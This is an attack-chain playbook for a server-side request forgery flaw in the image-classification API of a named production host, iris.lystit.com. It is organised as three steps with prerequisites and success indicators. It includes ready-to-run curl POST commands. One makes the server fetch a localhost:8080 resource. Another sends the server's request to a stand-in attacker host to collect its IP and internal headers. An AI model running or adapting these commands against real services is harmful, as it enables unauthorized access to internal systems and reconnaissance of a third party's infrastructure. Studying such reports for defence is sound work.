

# SSRF Exploitation in Lyst Iris API for Internal Host Access and Information Leakage

Multi-stage attack chain demonstrating SSRF in the /models endpoint of iris.lystit.com, allowing unauthenticated access to internal resources, limited reconnaissance, and information exfiltration.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Web platform with REST API
- Services: Django REST Framework on Python
- Ports: 8080 (internal)
- Network access: Public internet to iris.lystit.com

### Initial Access Requirements

- No credentials required (unauthenticated)
- Direct HTTP access to the target API
- No prior access needed

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Vulnerable-Image-URL-Endpoint-in-Lyst-Iris]]

**Objective**: Locate the API endpoint that accepts and fetches user-supplied image URLs without validation.

**Instructions**: Review the API documentation or test endpoints to find the /models/default/classification/color route, which processes JSON payloads with an 'images' array of URLs, fetching them server-side for image classification.

**Expected Output**: Confirmation that the endpoint accepts arbitrary URLs and performs server-side fetches.

**Success Indicators**:
- Endpoint responds to test requests with image processing results
- No URL validation errors for external or internal URLs

### Step 2: Exploit SSRF with Internal URL
procedure: [[procedures/Exploit-SSRF-with-Internal-URL-in-Lyst-Iris]]

**Objective**: Trigger a server-side request to an internal localhost endpoint to confirm SSRF and access internal resources.

**Instructions**: Use [[commands/curl-post-ssrf-internal]] to send a POST request with an internal URL in the images array:

```bash
curl -X POST https://iris.lystit.com/models/default/classification/color -H "Content-Type: application/json" -d '{"images": ["http://127.0.0.1:8080/static/rest_framework_swagger/images/wordnik_api.86c91314ec1a.png"]}'
```

Analyze the response for classification data derived from the internal resource.

**Expected Output**: JSON response with classification like {"data":{"color":{"probability":"0.903368339285","id":12,"value":"orange"}}}.

**Success Indicators**:
- Server fetches and processes internal resource
- Response includes data from localhost:8080

### Step 3: Demonstrate Information Leakage
procedure: [[procedures/Demonstrate-Information-Leakage-via-SSRF-in-Lyst-Iris]]

**Objective**: Redirect the SSRF request to an attacker-controlled external host to capture and leak server details like IP and headers.

**Instructions**: Set up an external listener (e.g., using ngrok or a VPS) and use [[commands/curl-post-ssrf-external]] to point the images URL to your server:

```bash
curl -X POST https://iris.lystit.com/models/default/classification/color -H "Content-Type: application/json" -d '{"images": ["http://your-attacker-server.com/capture"]}'
```

Monitor your server logs for incoming requests.

**Expected Output**: Captured request showing attacker IP, User-Agent (python-requests/2.7.0 CPython/2.7.6 Linux/3.13.0-108-generic), X-NewRelic-ID, and X-NewRelic-Transaction headers.

**Success Indicators**:
- Incoming request from internal server IP
- Leaked headers and environment details

## Attack Chain Summary

### Key Achievements

1. Confirmed SSRF in unauthenticated API endpoint
2. Accessed internal localhost:8080 resource
3. Exfiltrated server headers and IP via external redirect

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Reconnaissance]]

---
*Last updated: 2023-10-01T00:00:00Z*
